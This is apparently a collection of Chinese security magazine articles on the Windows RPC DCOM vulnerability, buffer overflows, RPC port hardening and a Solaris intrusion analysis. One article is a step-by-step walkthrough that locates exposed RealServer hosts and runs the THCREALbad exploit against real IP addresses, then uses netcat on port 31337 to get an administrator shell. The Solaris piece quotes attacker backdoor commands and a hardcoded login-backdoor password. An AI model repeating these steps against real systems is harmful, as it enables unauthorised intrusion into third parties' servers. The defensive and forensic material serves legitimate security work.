在笔者的 Windows XP 上并不能直接停止此服务，原因不明。RPC 的服务名是 RpcSs，你也可以通过 `net stop RpcSs` 这个命令来禁用它。但这是非常危险的。BlkViper 给出警告说，这是整个 XP 系统里唯一一个不能禁用的服务。它不依赖于任何其他的服务，恰恰相反，几乎所有系统程序都以 RPC 为载体方得以运行。在 Win 2000 中，如果你不小心禁用了这个服务，那你的系统就再也启动不了了。XP 下，如果你足够大胆，也可以试试看这个办法灵不灵 ^-^。

> 小编曾经不小心用程序让 RPC 服务当掉后，发现复制、粘贴功能失效，网页无法“另存为”，看来这项服务对于我们个人用户来说，也还是很重要的。

这里提供另外一种方法。但是由于 Windows 的很多服务都基于 RPC，关掉 RPC 服务后，这些基于 RPC 的服务将也不能正常启动。我以前使用 Windows 2000 Pro 的时候曾经关掉 RPC 服务，结果导致无法上网，我当时用的 USB ADSL 的 Modem。这个和 BlkViper 说的有点出入。我的 XP 在关掉 RPC 服务以后也变得奇怪了，启动都是巨慢，所以对于个人用户来讲，这里不推荐这种做法。如果你禁用了 RPC 出现了这些可怕的问题，这里有一个解决办法：重新启动 RPC 服务，只需要修改一下注册表：

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RpcSs]
"Start"=dword:00000002
```

你把这个存成一个 reg 文件导入就可以了。如果你和我一样懒，请这里下载：http://www.blkviper.com/WIN2K/Files/RpcRepair.zip。

### 二、禁用DCOM（分布式组件对象模型）

在漏洞原理中提到，此漏洞由于使用 RPC 的 DCOM 接口，当由客户端机器发送给服务器的 DCOM 对象激活请求（如 UNC 路径）不正确地处理畸形信息时造成溢出。那么禁用 DCOM 也不失为一条通往罗马的大路。同样，打开 cmd.exe，运行 dcomcnfg.exe，进入 Console Root -> Component Services -> Computers，右键点击 My Computer，选择 Properties，选择 Default Properties 标签页，将 “Enable Distributed COM on this computer” 前面复选框的勾去掉即可。

在我的 XP 上重启后生效。没有关闭此服务时，系统提示 RPC 服务崩溃，30 秒后重启；关闭此服务后 Exploit 自然就无效了。

### 三、配置防火墙

可以配置防火墙拒绝来自不信任 IP 地址的 135 端口访问，譬如通过配置天网的策略就很容易达到这个目的。具体这里就不详细说了。

### 四、打补丁

最简单、最行之有效而且不影响功能的办法就是针对漏洞打补丁。为了大家方便，我给大家提供了以下几个版本的补丁地址。

```text
Windows NT 4.0:
http://download.microsoft.com/download/6/5/1/651c3333-4892-431f-ae93-bf8718d29e1a/Q823980i.EXE

Windows NT TSE:
http://download.microsoft.com/download/4/6/c/46c9c414-19ea-4268-a430-53722188d489/Q823980i.EXE

Windows 2000:
http://download.microsoft.com/download/0/1/1/01fdd40f-efc5-433d-8ad2-b4b9d42049d5/Windows2000-KB823980-x86-ENU.exe

Windows XP(32):
http://download.microsoft.com/download/9/8/b/98bcfad8-afbc-458f-aaee-b7a52a983f01/WindowsXP-KB823980-x86-ENU.exe

Windows XP(64):
http://download.microsoft.com/download/a/7/5/a75b3c8f-5df0-451b-b526-cfc7c5c67df5/WindowsXP-KB823980-ia64-ENU.exe

Windows 2003(32):
http://download.microsoft.com/download/8/f/2/8f2f131d-9df3-4530-802a-2780629390b9/WindowsServer2003-KB823980-x86-ENU.exe

Windows 2003(64):
http://download.microsoft.com/download/4/0/3/403d6631-9430-4f16-a061-9072a4c50425/WindowsServer2003-KB823980-ia64-ENU.exe
```

### 小结

> 个人认为作为服务器如果不是实在需要 RPC 服务，还是禁用的好，少开不必要的服务，凡配置加上勤打补丁可以解决 90% 以上的问题。感谢 windwind 对我的帮助，文章的一半是属于他的。水平有限，错误在所难免，见谅。欢迎提出错误，跟我交流。

基于 RealNetworks 流媒体技术的 Helix Universal Server 9.0 是一款灵活而稳定的流媒体解决方案。Helix 带有丰富的管理工具，它对各类媒体格式的强大支持甚至超过了 RealPlayer（该公司流行的客户端媒体播放软件）。无论是 Web 转播，或是在现有的 Web 网站上进行视频和音频的发布，Helix 服务器都会为你提供一个发布和管理在线多媒体内容的完整平台。因此，我们就很有必要对其存在的漏洞进行检测，以尽量避免可能发生的入侵。

## 对 Helix Universal Server 远程缓冲区溢出漏洞的测试与分析

文／海的归宿

### 漏洞分析

Helix Universal Server 是一款由 RealNetworks 开发和维护的多类型媒体服务器。Helix Universal Server 9 及更早的版本（RealSystem Server 8、7 和 RealServer G2）在处理“View Source”插件实现时存在问题，远程攻击者可以利用这个漏洞以服务进程权限在系统上执行任意指令。问题存在于 Helix Universal Server 的“View Source”插件上，这个插件负责读取和显示媒体文件的文件格式头。当部分类型字符串（如 ../）以超参数量包含在 URL 中，服务协议对 URL 进行解析时可发生缓冲区溢出，精心构建提交数据可能以服务进程权限在系统上执行任意指令。

### 漏洞测试

测试当然要有测试目标。为了体现真实性和危害性，我们以真实的网络 Real Server 为测试目标。此漏洞涉及到所有安装 RealSystem Server 8/7、RealServer G2、Helix Universal Server 9 的操作系统，溢出方法大致类似，但我们还是会对 Windows 和 Linux 两种系统环境分别进行测试。首先下载测试工具：

```
THCREALbad.zip: http://packetstormsecurity.nl/0308-exploits/THCREALbad.zip
NC.exe: http://www.9836.com/NC.exe
Dotpot PortReady 1.6: http://www.chinesehack.org/down/show.asp?id=2135&down=1
```

其中 THCREALbad.zip 为溢出工具，NC.exe 为溢出后远程连接工具，Dotpot PortReady 为端口扫描器。远程溢出当然是针对远程主机提供的服务，远程服务要与外界通信，就一定要用到服务端口。我们的 Exploit 也是针对远程服务的服务端口发动的。Real Server 的服务端口为 554，因此我们只要……

### 什么是 Real Server

RealNetworks 流服务器端软件；用它可以在网上发布 Real 格式的 Audio、Video 文件，以流格式（RTSP 协议）进行网上传输播放，不必担心 rm 文件被下载。要实现网上流视频的点播与直播，需要安装一个服务器端软件，这个就是 Real Server。现在很多提供在线广播、在线电影的网站都是以 Real Server 作为流服务器端，服务端口为 554。客户只要在本地电脑的 IE 浏览器上输入：rtsp://Real Server 的 IP 地址/浏览文件，就能在线收听音乐或观看电影。

用扫描器扫描网络上开了 554 端口的主机，再通过返回的 Banner，就大致能确定对方是否提供 Real Server 服务，Real Server 版本为多少，能否成为我们的测试目标等。说干就干，打开下载来的 Dotpot PortReady，输入想要扫描的网段，扫描端口指定为：554，点击“开始”按钮，运气好的话，很快就能在结果栏出现几个开了 554 端口的 IP（图1）。

如果觉得扫描很麻烦的话，不妨打开：http://www.google.com，输入 rtsp:// 的搜索条件，很快你将会找到一大堆提供 RTSP 服务的 IP 地址（图2），怎么样，你是不是还有更简单的办法？

现在我们的测试目标已经找到很多了，就进入正式测试阶段吧。解压缩 THCREALbad.zip 并提取其中的 THCREALbad.exe 文件至 C 盘，同时拷贝 NC.exe 到 C 盘，点击“开始->运行->cmd.exe”，进入 DOS 输入。

```
C:\>THCrealbad.exe <---输入
THCREALbad v0.4 - Win00w2 & Linux remote root sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
Usage:<Host><OS>
0 = WindowZ/*针对win32操作系统*/
1 = Linux/*针对linux操作系统*/
2 = OS Test Mode /*检测远程主机操作系统及RealServer版本号*/
C:\>
```

根据返回的程序帮助，我们只需要在命令 THCrealbad.exe 后加上待测试主机的 IP 地址及系统代号就行了。如何判断远程主机的操作系统环境呢？你 Telnet 上测试目标的 554 端口察看返回的 Banner 就能知道了，幸运的是程序提供自动检测远程主机系统环境的功能，把 OS 的值设为 2：

```
C:\>THCrealbad.exe 61.145.114.68 2
THCrealbad.exe 61.145.114.68 2
THCREALbad v0.4 - WindowZ & Linux remote root sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
Detected OS: RealServer Version 8.0.0.149 (win32)
C:\>
```

返回远程主机的操作系统为 win32，RealServer 的版本为 8.0.0，正好是存在漏洞的版本。还等什么，测试吧。OS 值为 0，是针对 Win32 系统的攻击测试，因此我们输入命令：THCrealbad.exe 61.145.114.68 0，返回结果如图3所示。

（图3）攻击测试输出（控制台日志）

结果提示我们 Exploit 已经发送出去了，现在我们可以利用 netcat（NC.exe）连接对方的 31337 端口了。在 DOS 下输入 NC.exe 61.145.114.68 31337（图4）。如果线路正常或对方未装防火墙，很快我们就能得到一个 Shell，权限可是 Administrator。

（图4）连接成功后的控制台输出（获得 shell）

我们再来测试 Linux 操作系统下攻击是否能成功。同样，根据前面找测试目标的方法，我们找到一台安装了 Real Server 服务的 Linux 操作系统（图5）。

图5 测试远程主机

如图6所示，结果返回系统内核为 Linux-0.2-libc6-i386，Real Server 版本为 8.0.1.367，同样在漏洞影响版本范围内。我们把 OS 的值设成 1 进行远程溢出测试。

图6 远程攻击

和 Windows 下的提示一样，系统提示我们 Exploit 已经发送出去了，现在我们可以利用 netcat（NC.exe）连接对方的 31337 端口了（图7）。对提供 Real Server 服务的 Linux 操作系统的远程溢出我们同样成功了。

图7 连接成功

### 漏洞修补

RealNetworks 建议去掉此插件，删除此插件不会对随选内容或实时流传递、日志记录、验证服务造成影响，但内容浏览功能将不能使用。我们建议使用此软件的用户随时关注厂商的主页以获取最新版本：http://www.real.com。

### 后记

测试完此攻击程序以后，漏洞的影响范围有些超出我的想像。刚开始我以为只有一些在线语音图像传播网站，可测试完后，发现很多在线教育站点、广播站点同样存在。更遗憾的是，漏洞通告都贴出好些日子了，大家都还没打上补丁，可见网络安全在我们的意识中处于什么地位。

## 分析缓冲溢出攻击及安全防范体系

文／顾晓慈

### 缓冲溢出漏洞，危害不容忽视

当你在家里通过宽带体验冲浪的极速感觉时，当你在办公室通过即时通讯软件与远在大洋彼岸的客户进行商业交流时，是否想过你的系统是否坚如磐石，是否被网络另一端心怀叵测的黑客或脚本少年盯上。或许有人认为装上了防火墙、防病毒就可以安全无忧了，遗憾的是，这些仅解决了部分问题，由于系统本身的漏洞而遭受攻击却极难防范。我们讨论一种漏洞攻击方式——远程缓冲溢出攻击，因为这种攻击可以使得一个匿名的 Internet 用户有机会获得一台主机的部分或全部控制权，危害很大，也是最普遍的漏洞，大约 80% 的安全事件与缓冲区溢出有关。如微软于 7 月 17 日公开的 Windows 安全漏洞“RPC 接口缓冲溢出可能导致运行任意代码（MS03-026）”；其影响范围和危害不亚于“SQL Slammer”，被认为是微软至今最严重的缓冲溢出漏洞。

我们知道，缓冲区溢出漏洞是一种软件中边界条件、函数指针等设计不当造成地址空间错误的问题。它的原理是：向一个有限空间的缓冲区中拷贝了过长的字符串，带来了两种后果，一是过长的字符串覆盖了相邻的存储单元而造成程序瘫痪，甚至造成宕机、系统或进程重启等；二是利用漏洞可以让攻击者运行恶意代码，执行任意指令，甚至获得超级权限等。

早在 1988 年，美国康奈尔大学的计算机科学系研究生、23 岁的莫里斯（Morris）利用了 UNIX fingerd 程序不限制输入长度的漏洞使缓冲器溢出。Morris 又写了一段程序使他的恶意程序能以 root（根）身份执行，并传播到其他机器上，结果造成 6000 台 Internet 上的服务器瘫痪，占当时总数的 10%。

“SQL Slammer”蠕虫王的发作原理，就是利用未及时更新补丁的 MS SQL Server 数据库缓冲溢出漏洞，采用不正确的方式将数据发到 MS SQL Server 的监听端口，这个错误可以引起缓冲溢出攻击。目前新出现的 MSBLAST 病毒正是利用了微软关于 RPC 接口中远程任意可执行代码漏洞，“中招”的机器会出现反复重启，或者拷贝、粘贴功能不能工作等现象。事实上，如果成功利用缓冲漏洞，攻击者就有可能获得对远程计算机的完全控制，并以本地系统权限执行任意指令，如安装程序、查看或更改、删除数据、格式化硬盘等，危害性不言而喻。

通常，缓冲区溢出攻击都是一次完成攻击代码植入和程序转向攻击代码两种功能。如通常攻击者将目标定为具有溢出漏洞的自动变量，然后向程序传递超长的字符串，进而引发缓冲区溢出。然后这段精巧设计的攻击代码以一定的权限运行漏洞程序，继而获得目标主机的控制权。这种攻击手段屡次得逞主要利用了 C 程序中数据边界条件、函数指针等设计不当的漏洞。大多数 Windows、Linux、Unix、数据库系列的开发都依赖于 C 语言，而 C 的缺点是缺乏类型安全，所以缓冲区溢出攻击成为操作系统、数据库等大型应用程序最普遍的漏洞公告之一。

### 面对漏洞威胁，积极应对防范

在 1998 年 CERT 的 13 份建议中，有 9 份是与缓冲区溢出有关的；在 1999 年，至少有半数的建议是和缓冲区溢出有关的。2003 年 7 月份公开的 10 大安全漏洞通告，至少有 5 项属于缓冲区溢出漏洞。可见完全避免这种漏洞造成的安全威胁是不可能的，但我们可以构建完善的防范体系来降低缓冲区溢出攻击的威胁。

作为编程人员，可以使用具有类型安全的语言 Java 以避免 C 的缺陷；如果在 C 开发环境下，应避免使用 gets、sprintf 等未限定边界、易溢出的危险函数。还可使用检查堆栈溢出的编译器（如 Compaq C 编译器）等。另外一个有效的办法是采用非执行堆栈和堆栈保护的方法。最后在产品发布前仍需要仔细检查程序溢出情况，将威胁降至最低。

作为普通用户或系统管理员应该做些什么呢？首先确保及时为自己的操作系统和应用程序更新 Patch，以修补公开漏洞；其次应减少不必要的开放服务端口。举一个例子，你屋子里的门和窗户越少，入侵者进入的方式就越少。

值得关注的是，通常传统安全工具如防火墙对这种攻击方式无能为力，因为攻击者传输的数据分组并无异常特征，没有任何欺骗。另外，可以用来实施缓冲器溢出攻击的字串非常多样化，无法与正常数据有效区分。缓冲器溢出攻击不是一种窃密和欺骗手段，而是从计算机系统的最底层发起攻击，因此在它的攻击下系统的身份验证和访问权限等安全策略形同虚设。

我们知道，单纯依赖部署安全产品如防火墙、IDS 等仅能构筑静态被动的防御体系，所以还应注重 P2DR 模型的作用，即增加 Policy（安全策略）、Protection（防护）、Detection（检测）和 Response（响应）的能力。按照公式 Pt > Dt + Rt，和 Et = Dt + Rt（Pt = 0），应提高系统的防护时间 Pt，降低检测时间 Dt 和响应时间 Rt。

国内著名安全公司天行网安秉承“安全视为一个过程，而非产品”的技术理念，“全程网络安全服务”应运而生，其核心内容包括系统漏洞分析、安全风险评估、方案咨询设计、状态跟踪与安全监控、事件紧急响应和安全修复等部分。“全程网络安全服务”不替代用户现存的任何安全工具，而是充分发挥安全审计和管理平台的作用，构成主动的动态防御体系，充分发挥安全工具的作用，降低威胁并保证网络的可持续健康运行。

安全专家小组 Security Force 与安全专家、民间安全组织具有密切关系，他们具备精湛的技术和丰富的经验，可以针对每一个用户的特定需求和网络环境定制服务策略和服务内容，从而为用户构建安全可信、可持续运行的网络应用平台。

目前，几个 RPC 漏洞接二连三被揭露出来后，很快针对这些漏洞的各种病毒纷纷出笼，上演了群魔乱舞的时代。其中，冲击波、流言等 RPC 蠕虫的危害性直逼 2003 年初爆发的 SQL 蠕虫，给数以万计的计算机用户带来了梦魇般的经历。在好不容易得到喘气的机会时，2003 年 9 月 10 日微软公司又公布了最新的 RPC 漏洞，而且以前针对 RPC 漏洞推出的安全补丁对这个漏洞完全无效。本文介绍了作者在 Windows 服务器防范这些漏洞的心得，让大家不至于在蠕虫面前手足无措。

难度等级：中

前置知识：Windows 2000，软件防火墙

## RPC服务器安全配置

文／影子鹰安全网络 kawen

2003 年 9 月 10 日微软紧急发布了最新的 RPC 漏洞信息，攻击者只要向远程计算机上的 135 端口发送特殊格式的请求，就可以获得对远程计算机的完全控制，这使得攻击者能够对服务器随意执行任何操作，包括更改网页、格式化硬盘或者向本地管理员组中添加新的用户。

此漏洞将会影响运行 Microsoft Windows 的用户：

- Microsoft Windows NT 4.0
- Microsoft Windows NT 4.0 Terminal Services Edition
- Microsoft Windows 2000
- Microsoft Windows XP
- Microsoft Windows Server 2003

RPC 是 Windows 操作系统使用的一个协议，它提供了一种进程间通信机制。通过这一机制，在一台计算机上运行的程序可以顺畅地执行某个远程系统上的代码。该协议本身是从 OSF（开放式软件基础）RPC 协议衍生出来的，只是增加了一些 Microsoft 特定的扩展。

RPC 中处理通过 TCP/IP 的消息交换的部分有一个漏洞，此问题是由错误地处理格式不正确的消息造成的。这种特定漏洞影响分布式组件对象模型（DCOM）与 RPC 间的一个接口，此接口监听 TCP/IP 端口 135。此接口处理客户端计算机向服务器发送的 DCOM 对象激活请求，例如通用命名约定（UNC）路径。

此漏洞是由于 Windows RPC 服务在某些情况下不能正确检查查询输入而造成的。如果攻击者在 RPC 建立连接后发送某种类型的格式不正确 RPC 消息，则会导致远程计算机上与 RPC 之间的基础分布式组件对象模型（DCOM）接口出现问题，进而使任意代码得以执行——而 135 端口则成了问题出现的最根本起源。

对于服务器而言，我们现在需要做的就是尽可能快地封上你的 135 端口，以下是一些安全配置方法：

### 在防火墙上封堵135端口

135 端口用于启动与远程计算机的 RPC 连接。连接到 Internet 的计算机应当在防火墙上封堵 135 端口，用以帮助防火墙内的系统防范通过利用此漏洞进行的攻击。使用防火墙关闭所有不必要的端口。漏洞不仅仅影响 135 端口，还影响到大部分调用 DCOM 函数的服务端口，建议用户使用网络或个人防火墙过滤以下端口：

- 135/TCP epmap
- 135/UDP epmap
- 139/TCP netbios-ssn
- 139/UDP netbios-ssn
- 445/TCP microsoft-ds
- 445/UDP microsoft-ds
- 593/TCP http-rpc-epmap
- 593/UDP http-rpc-epmap

如果你在使用 Windows XP 或 Windows Server 2003 中的 Internet 连接防火墙来保护你的 Internet 连接，则默认情况下会阻止来自 Internet 的入站 RPC 通信信息。

### 方案一：关闭病毒攻击的 TCP/IP 端口

使用 Windows 自带的 TCP/IP 筛选功能。打开默认的网络连接属性，单击“属性”，选择常规页的 TCP/IP，再单击“属性”“高级”，进入下一页，选择“TCP/IP 筛选”“属性”，在 TCP 和 UDP 端口设置中选择“只允许”，添加相应的端口，如 80 用于 IE 浏览，其他端口根据应用程序的设定相应修改，最后确定就 OK 了！

> 编者提示：这个方案最简单，普通用户可以考虑采用！

### 方案二：使用金山网镖或者天网防火墙

网镖高级功能可以非常方便地实现封闭和开放端口的功能。单击桌面右下角“金山网镖”的图标，在弹出的菜单中选择“配置”选项，然后选择“高级页”；选中使用 IP 包过滤技术，添加 TCP、UDP 的 135、139、445 端口，最新捕获的“新流言”病毒还要关闭 4444 端口——请注意：在做这一切前请先升级你的反病毒软件和防火墙。

> 编者提示：任何软件防火墙都有类似功能，不必在一棵树上吊死，小编用的软件防火墙是 BlackICE for NT Server。

### 禁用所有受影响的计算机上的 DCOM

如果一台计算机是一个网络的一部分，则该计算机上的 COM 对象将能够通过 DCOM 网络协议与另一台计算机上的 COM 对象进行通信。你可以禁用特定计算机上的 DCOM，帮助其防范此漏洞（但这样做会阻断该计算机上的对象与其他计算机上的对象之间的所有通信）。

如果你禁用一台远程计算机上的 DCOM，此后你将无法通过远程访问该计算机来重新启用 DCOM。要重新启用 DCOM，需要本地操作该计算机。

### 手动为计算机启用（或禁用）DCOM

- 运行 Dcomcnfg.exe。如果你使用 Windows XP 或 Windows Server 2003，则还要执行下面这些步骤：单击“控制台根节点”下的“组件服务”，打开“计算机”子文件夹。对于本地计算机，请右键单击“我的电脑”，然后选择“属性”。对于远程计算机，请右键单击“计算机”文件夹，然后选择“新建”，再选择“计算机”。输入计算机名称，右键单击该计算机名称，然后选择“属性”。
- 选择“默认属性”选项卡。
- 选择（或清除）“在这台计算机上启用分布式 COM”复选框。
- 如果要为该计算机设置更多属性，请单击“应用”按钮以启用（或禁用）DCOM。否则，请单击“确定”以应用更改并退出 Dcomcnfg.exe。

### 立刻为你的计算机打相应的补丁

- Windows Server 2003 中文版（32位）  
  http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=F8E0FF3A-9F4C-4061-9009-3A212458E92E
- Microsoft Windows XP 简体中文版（32位）  
  http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=2354406C-C3B6-44AC-9532-3DE40F69C074
- Microsoft Windows 2000 简体中文版  
  http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=C8B8A846-F541-4C15-8C9F-220354449117
- Microsoft Windows NT 4.0 中文版  
  http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=2CC66F4E-217E-4FA7-BD3F-DF77A0B9303F

## Solaris 下的一次入侵分析


文 / stack

作为一个网络管理员，特别是大中型企业的网络管理员，除了对系统进行更新，还应进行入侵分析。本文是对一台 Solaris 8 系统的分析，从可疑的进程入手，一步步找出隐藏在系统中的蛛丝马迹。

### 一、发现问题

前段时间帮一个朋友管理一台 Solaris 系统，因为系统刚升级为 Solaris 8，系统升级之后还没有做安全配置，平时就放在那里做个测试机。

小知识：Solaris 是 SUN 开发的一种网络操作系统，主要针对大中企业应用的服务器操作系统。

今天我本想登录上去编译一个测试程序，按网管的习惯登录上去就打了个 ps 命令，查看进程的运行情况。

在这里我们先介绍一下 ps 这个命令。ps 命令是显示系统相关进程的信息；没有任何选项设置时，ps 仅显示与控制终端相关的进程信息。

```
/lib/saf/sac -t 300
...
root 17594 1 0 11月7日 0:00 /
usr/sbin/inetd -s /tmp/.x
```

由此，大家发现有什么不妥了吗？没错，发现一个 `/usr/sbin/inetd -s /tmp/.x` 的进程！

这里我们介绍一下 inetd 这个进程。inetd 进程又名超级服务器，是一个十分重要的进程，它会参考 `/etc/inetd.conf` 文件中相关服务设定，启动相应的服务。在 Solaris 下，这个 inetd 命令可以通过 `-s` 参数指定要读取设定服务的文件，启动该设定文件所定义的服务，所以，许多攻击者都会通过该命令为自己开放一个后门服务。

再看看网络情况：

- `-e` 显示当前运行的每一个进程的信息  
- `-f` 产生一个完整的清单

与进程有关的标志：

- 00 进程已经终止
- 01 系统进程
- 02 父进程是跟踪进程
- UID：进程所有者的用户 ID 号
- PID：进程的进程 ID
- PPID：父进程的进程 ID

进程状态：

- o 正在运行
- s 睡眠
- r 可运行

```
#### ps -ef
UID   PID  PPID  C  STIME  TTY  TIME  CMD
root    0    0   0  ...
/etc/init ...
root    2    0   0  ... pageout
root    3    0   0  ... fsflush
root  271    1   0  ... /usr/...
```

```
#### netstat -an
UDP
Local Address        Remote Address        State
...
TCP
Local Address        Remote Address        Swind
Send-Q Rwind Recv-Q  State
...
0 0 0 LISTEN
0 0 0 IDLE
...
```

由这些信息可以看到居然开出了 1524 端口！

1524 端口本来是 ingreslock 服务端口（注：ingreslock 服务本来就是一个锁定 ingres 数据库部件的服务），默认 Solaris 是不会开出这种服务的，但现在好多攻击程序溢出成功后，都在该端口打开一个 shell，提供一个进入系统的入口。

```
/dev/cu/tools/nmap-2.54BETA1/targets.c
/dev/cu/tools/nmap-2.54BETA1/cpio.c
/dev/cu/tools/nmap-2.54BETA1/error.c
/dev/cu/tools/nmap-2.54BETA1/utils.c
/dev/cu/tools/nmap-2.54BETA1/osscan.c

/dev/cu/tools/ettercap-0.6.7/docs/fr/ettercap.in
8.in
/dev/cu/tools/ettercap-0.6.7/docs/it
/dev/cu/tools/ettercap-0.6.7/docs/it/README.PLUGINS.it
```

### 二、入侵分析

以上入侵分明是一个“脚本男孩”所为（“脚本男孩”就是指那些不理解攻击程序的运行机理，只会使用别人开发的攻击程序到处破坏的少年），连入侵后启动的进程都不关掉。根据往常的经验，这些被攻击的 Solaris 机器，通常会被入侵者做为攻击其他机器的跳板，俗称为“肉鸡”，估计该机器已经被入侵者上载了一些相关的攻击工具和后门程序，下面的任务就是要找出这些程序。

我们使用 find 命令找出所有隐含文件或目录：

```
#### find / -name '.*' -print -xdev
/etc/cron.d/.proto
/etc/skel/.profile
...
/.profile
/.Xauthority
/.TTauthority
/.vnc
/.Xlocale
```

> （注：以上使用到的 find 命令参数意思为：  
> `/` 意思就是指定要开始查找的目录，这里从 root 目录开始寻找；  
> `-name` 指的是寻找指定文件名；  
> `-o` 就是 or 的意思，也就是“或”；  
> `-nogroup` 指的是寻找没有属组的文件。）

在此，我们终于有发现了：在 `/dev/cu` 目录下居然发现 NMAP 的源代码和 Sniffer 工具，这个不是网管和我放的，那肯定是入侵者放的东西，进去看看。

```
#### cd /dev/cu
#### ls -la
...
tools
...
tools.zip
```

发现一个目录及一个文件，显然是攻击者上传的工具文件。再进目录看看有什么东西。

> （注：find 命令可以在层次目录中查找文件，例如：以上使用到的 find 命令参数意思为：  
> `/` 是指定要开始查找的目录，这里从 root 目录开始寻找；  
> `-name ".*"` 是指定要找的文件名，这里是寻找文件名首字符为 `.` 的文件；  
> `-print` 表达式显示找到文件的全路径名；  
> `-xdev` 表达式表示不要查找其他文件系统的目录。）

从以上列表，好像没有什么发现。继续寻找，再使用 find 命令查看一下没有属主或没有属组的文件或目录：

```
#### find / -nouser -o -nogroup
/dev/cu/tools/nmap-2.54BETA1
/dev/cu/tools/nmap-2.54BETA1/nmap.c
```

```
#### cd ~/tools
#### ls -la
...
brute
brute.c
cachefsd
...
bash
4 10:54 dtspcex
-rwxr-xr-x 1 root other 9944 Mar 6 2002 dtspcex.c
drwxr-xr-x 7 500 500 1024 Aug 27 11:55 ettercap-0.6.7
-rw-r--r-- 1 root other 2744320 Jul 3 15:04 ettercap-0.6.7.tar
-rwxr-xr-x 1 root other 6416 Jul 4 10:52 login
-rwxr-xr-x 1 root other 1392 Jun 22 18:20 login.c
drwx------ 5 500 500 2048 Jul 8 11:59 nmap-2.54BETA1
-rwxr-xr-x 1 root other 2058240 Jun 19 2000 nmap-2.54BETA1.tar
...
-rwxr-xr-x 1 root other 29696 Jun 19 2000 wipe.tar
```

不得了，在这里发现很多工具！通常攻击者的攻击程序都会放到“肉鸡”上，我猜测该入侵者的攻击程序也应该放到这台机器上。我尝试使用 grep 命令查看是否真的存在该攻击程序。

```
#### grep "\/usr\/sbin\/inetd -s /tmp/x" ./*
./dtspcex: ..."/usr/sbin/inetd -s /tmp/x;/bin/rm -f /tmp/x"...
./dtspcex.c: ..."/usr/sbin/inetd -s /tmp/x;/bin/rm -f /tmp/x"...
```

果然在这里。我们来看看这是一个什么程序：

```
#### more ./dtspcex.c
```



以上程序是一个攻击 Solaris Dtspcd 服务的远程攻击程序，看来这个程序就是用来攻击这台机器的攻击程序。再分析一下其他程序，又发现了一个 `login.c` 程序，大家看看这是个什么程序呢！

```
#### cat ./login.c
```


看明白没有？原来是一个 Login 后门。看来入侵者都喜欢留下再次进入的后门。看看我们系统现在的 `/bin/login` 是怎样的？

```
#### strings /bin/login
DISPLAY
/usr/sbin/login
/bin/sh

再看看 /usr/sbin/login 文件
#### strings /usr/sbin/login
/usr/lib/snmp/.bin
[file]
find
file filters
[ps]

@(#) Copyright (c) 1980, 1987, 1988 The Regents of the University of California.
All rights reserved.
@(#)login.c
5.32.1.1 (Berkeley) 1/28/89
Login incorrect
%Z% %M% %I% %E% %U%
```

果然，真正的 `/bin/login` 程序已经被移动到 `/usr/sbin/login` 了，现在的 `/bin/login` 分明就是一个在 Telnet 时使用 DISPLAY 参数作为密码的后门程序，这个程序只要在 Telnet 前定义环境 DISPLAY 的值为指定的密码 Letmein，远程 Telnet 进入系统时就不必使用账号和密码登录了。

### 三、总结

从以上分析可知，这是一个典型的 Solaris 入侵事件，入侵者就是使用 CDE 的 Dtspcd 远程漏洞攻击进去的，Dtspcd 使用到的端口为 TCP 6112，有关该安全问题的介绍请看：

http://www.cert.org/advisories/CA-2002-01.html

其实作为系统管理员，不但要保证系统服务正常运行，还要保证系统的安全运行。以下是给网管的忠告：

- 系统一定要及时打补丁。这次遇上的是一个脚本男孩，如果遇到高手，可能就不容易发现这些入侵行为了。
- 装完系统，最好先对关键文件做个备份并做 md5sum，以后怀疑出问题时拿这些对照，可以很容易找到入侵点。

---

ASP 动态网站功能越来越强大；我们用起来也感觉特别方便，但是其安全性确实也令人担心。对很多网站来说，数据库是自己的立站之本，这样数据库的安全就显得尤为重要。本文正是从数据库这个角度出发，讨论加强 ASP 网站安全的方法，相信大家看后会有所收获。

